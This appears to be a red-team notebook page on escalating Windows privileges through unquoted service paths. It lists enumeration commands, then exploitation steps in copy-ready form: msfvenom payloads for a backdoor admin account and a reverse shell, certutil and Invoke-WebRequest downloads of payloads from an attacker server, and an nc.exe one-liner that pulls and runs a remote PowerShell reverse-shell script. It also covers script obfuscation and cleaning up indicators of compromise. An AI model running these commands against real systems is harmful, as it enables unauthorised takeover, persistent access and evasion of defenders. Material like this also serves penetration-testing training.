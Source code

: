 #### Tags: [[06 - Privilege Escalation (TA0004)]] 

## Overview | Service Misconfiguration

Unquoted Service Path exploitation Pre-requisite

	- PATH is not using Quotes and Contains Space
	- Writeable PATH: Users should have write access in one of the folders where the binary path resides
	- Executes as LocalSystem
	- Users should have the right to restart the Service
## Enumeration 

### Script Enumeration
- Import script in memory & Do not touch the disk
- PowerShell Script Obfuscation Tools: https://github.com/JoelGMSec/Invoke-Stealth
```markdown
# PowerUp Obfuscated
GitHub Fetch Scipt > Execute! 
[RT GitHub: PScriptsObs: Scripts Obfuscated via chameleon](https://github.com/raghavtalwar/PScriptsObs/)

# PS Scripts
*Winpeas*
.\winPEAS.exe quiet servicesinfo
*PowerUp*
powershell -c "Invoke-WebRequest -Uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 -OutFile PowerUp.ps1"

powershell.exe -nop -exec bypass -c ". .\PowerUp.ps1;Get-UnquotedService"

powershell -c "Import-Module ./PowerUp.ps1; Write-ServiceBinary -Name SalesFarce -Path ./Sales.exe -Command '<POWERSHELL_STAGERCODE>'"

## Find them
powershell> Get-UnquotedService
powershell> Get-ModifiableServiceFile
powershell> Get-ModifiableService

# Execure a reverse shell or adding new user as administrator.
Write-ServiceBinary -name "Service_Name" -Path "C:\Service_name.exe"
Write-ServiceBinary -Name 'SalesFarce' -Path <HijackPath>
```
### Manual Enumeration
```
##  WMI (Powershell) ##
PS:> 
Get-WmiObject win32_service | select Name,PathName,StartMode,StartName | where {$_.StartMode -ne "Disabled" -and $_.StartName -eq "LocalSystem" -and $_.PathName -notmatch "`"" -and $_.PathName -notmatch "C:\\Windows"} | Format-List

##  Windows Management Instrumentation Command-Line (WMIC)  ##
CMD:> 
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

```markdown
# Identfy service with weak permissions or unquoted paths 
CMD:> .\accesschk64.exe /accepteula -uwcqv studentuser ***
PS:> Get-WmiObject -Class win32_service | select pathname
	+ Look out for Service with Spaces and not having Quotes!

# Manually Query Service 
CMD:> sc qc "service_name"
PS:> cmd /c sc qc "BOOTP Turbo"

# AccessCHK - Sysinternals
## Check Write access to Directory under Unquoted Service PATH
C:\PrivEsc\accesschk.exe /accepteula -wuqvd "C:\Program Files\Unquoted Path Service\"
RW BUILTIN\Users
	FILE_ALL_ACCESS
# ICACLS - Inbuilt binary
icacls "<path>"
	**F**: Full control
	**M**: Modify
	**RX**: Read and execute
	**R**: Read-only
	**W**: Write-only
```

![[Pasted image 20240330234652.png]]
## Exploitation 
### Create Malicious Service
```markdown
# Add User Exploiation
msfvenom -p windows/adduser USER=backdoor PASS=backdoor -f exe > service.exe

# Reverse Shell Exploitation
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```
### Replace Service
#### Fetch the sales as a base64 BLOB and convert to EXE 
```markdown
# Create service binary via MsfVenom or PowerUp Write-ServiceBinary 
base64 Sales.exe > Sales.pem

python3 -m http.server 8000

certutil -urlcache -split -f http://10.254.252.3:8000/Sales.pem c:\SalesFarce\sales.pem

del c:\SalesFarce\Sales.pem
```
###### Note: Create the binary by supplying the stager > If you want executable to communicate with your C2 by exploiting Unquoted Service Path, 

![[Pasted image 20240331022735.png]]
### Start the service post modification of PATH
- Restart Service
	- `net stop <service>`
	- `net start <service>`
	or
	- `sc stop service_name
	- `sc start service_name`
- If unable to start the service try rebooting machine
	- `shutdown /r /t 0`

###### Red Team Tip | Operator
It's best to avoid writing files to disk, sometimes it is necessary. In those cases, keep track of those files that will become indicators of compromise. 
- Send the task to delete the files when you don't need them, but always do a directory listing to make sure the file did get deleted.
- Example: Once you get your new elevated agent send this final command from your unprivileged agent to clean up the binaries you placed on the disk.
	- `del c:\SalesFarce\Sales.exe`

#### Notes | Bonus
- Create Links to this Page! 

##### Transfer the Reverse Shell & !!IMP NOTE!!
- Example Full Path - 
    + `C:\Program Files\Unquoted Path Service\Common Files\jerry.exe`
- An attacker can exploit this vulnerability by placing a malicious executable named `Program.exe`, `Files.exe`, or `Unquoted.exe`
- Place Reverse Shell, as `Unquoted.exe` under Program Files Folder
- Or, Place `Common.exe` under the Unquoted Path Service Folder
- Thus, Place it one Dir < BEFORE > as when Service Control Manager
- SCM starts this service, it will look at the following PATH
    + It will run the EXE that it will FIND.

Thus, windows primarily searches for an executable file based on the path specified in the service's configuration, not by the service name.

##### Fetch the reverse.exe executable & Rename Correctly  >>  SMB
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
`Ren "C:\Program Files\Unquoted Path Service\Common.exe" Unquoted.exe
##### Fetch the reverse.exe executable & Copy Correctly  >>  HTTP
`IWR -Uri 'http://10.0.2.54:90/reverse.exe' -Outfile "BOOTP.exe"
`copy C:\Temp\BOOTP.exe "C:\Program Files\BOOTP.exe"

##### Spawn Powershell from Command Injection Vulnerability
`\\10.0.2.54\kali\nc.exe 10.0.2.54 443 -e "cmd.exe /c C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -ep bypass iex(new-object net.webclient).downloadstring('http://10.0.2.54/Invoke-PowerShellTcp.ps1')"`
	+ Bypass Execution Policy as well!